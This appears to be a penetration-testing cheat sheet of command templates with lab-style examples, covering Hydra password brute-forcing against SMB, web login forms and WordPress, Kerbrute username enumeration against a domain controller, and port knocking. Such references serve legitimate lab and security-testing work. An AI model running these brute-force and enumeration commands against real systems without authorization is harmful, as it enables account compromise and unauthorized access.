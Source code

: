 - ### SMB Bruteforce
hydra -t 1 -V -f -l administrator -P [path to pass-wordlist] 10.10.10.11 smb
###### Example :
```
hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt 10.10.10.11 smb
```

- ### Post Web Form
hydra -l [username] -P [path to pass-wordlist] [IP Target] http-post-form "/[login webpage]:username=^USER^&password=^PASS^:F=[Failed login message]" -V 
###### Example :
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.11 http-post-form "/login:username=^USER^&password=^PASS^:incorrect" -V
```
- ###  Http-get Web Brute Force
hydra -l admin -P [path to pass-wordlist] [IP Target] http-get -t 64
###### Example :
```
hydra -l rascal -P /usr/share/wordlists/rockyou.txt 10.10.244.40 http-get -t 64 
```
- ### Hydra User Enumerate
hydra -L [path to user-wordlist] -p test [IP Target] http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid Username." -V
###### Example :
```
hydra -L fsociety.dic -p test 10.10.10.11 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid Username." -V
```
- ### Brute Force The User Password 
hydra -l [Valid User] -P [path to pass-wordlist] [IP Target] http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:[Failed Login Message]" -V
###### Example :
```
hydra -l Elliot -P fsocity.dic 10.10.10.11 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered for the username" -V
```

---------------------------------------------------------------------------
## Kerbrute
- ### Enumerating Valid User
./kerbrute_linux_amd64 userenum -dc [target domain controller] -d [domain] [path to user-wordlist]
###### Example :
```
./kerbrute_linux_amd64 userenum --dc 10.10.10.11 -d spookysec.local /usr/share/wordlists/userlist.txt
```
---------------------------------------------------------------------------
## Knock
- ### Port Knock Client
knock [IP Target] [Port / Special Code for Make sure you are the client]
###### Example :
```
knock 10.10.114.147 1111 2222 3333 4444
```
